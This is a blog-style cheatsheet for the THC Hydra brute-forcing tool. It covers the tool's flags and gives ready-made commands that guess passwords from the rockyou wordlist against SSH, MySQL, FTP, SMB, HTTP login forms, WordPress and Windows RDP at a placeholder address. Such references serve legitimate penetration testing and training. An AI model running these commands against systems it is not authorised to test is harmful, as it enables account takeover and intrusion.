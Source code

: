 ```yaml
---
layout: post
title: THC Hydra Cheatsheet
summary: A cheatsheet for the THC Hydra bruteforcing tool. THC Hydra is a tool developed by van Hauser / THC for bruteforcing credentials on multiple protocols.
date: 2020-07-24
author: Noxtal
categories: cheatsheets
thumbnail:  hydra
tags:
 - cheatsheet
 - hydra
 - bruteforce
 - attack
---
```


A cheatsheet for the THC Hydra bruteforcing tool. THC Hydra is a tool developed by van Hauser / THC for bruteforcing credentials on multiple protocols.

-----

- [Cheatsheet](#cheatsheet)
  - [Basic Usage](#basic-usage)
    - [Syntax](#syntax)
    - [Useful flags](#useful-flags)
  - [SSH](#ssh)
  - [MySQL](#mysql)
  - [FTP](#ftp)
  - [SMB](#smb)
  - [HTTP Post Form](#http-post-form)
  - [Wordpress](#wordpress)
  - [Windows RDP](#windows-rdp)

# Cheatsheet
## Basic Usage
### Syntax 

`hydra [OPTIONS] IP`

### Useful flags
- `-h`: see the help menu
- `-l <LOGIN>`: Pass single username/login
- `-L <FILE>`: Pass multiple usernames/logins 
- `-p <LOGIN>`: Pass single known password
- `-P <FILE>`: Pass a password list or wordlist (ex.: `rockyou.txt`)
- `-s <PORT>`: Use custom port
- `-f`: Exit as soon as at least one a login and a password combination is found
- `-R`: Restore previous session (if crashed/aborted)

## SSH
Bruteforce SSH credentials 
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh
```
(use `-s` for custom port)

## MySQL
Bruteforce MySQL credentials
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP mysql
```
(use `-s` for custom port)

## FTP
Bruteforce FTP credentials 
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP ftp
```
(use `-s` for custom port)

## SMB
Bruteforce SMB credentials 
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP smb
```
(use `-s` for custom port)

## HTTP Post Form
Bruteforce web HTTP form 
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"
```
(use `-s` for custom port)

Ex.:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"
```

## Wordpress
Bruteforce WordPress credentials 
```bash
hydra -f -l user -P /usr/share/wordlists/rockyou.txt $IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```
(use `-s` for custom port)

## Windows RDP
Bruteforce Windows Remote Desktop credentials
```bash
hydra -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$IP
```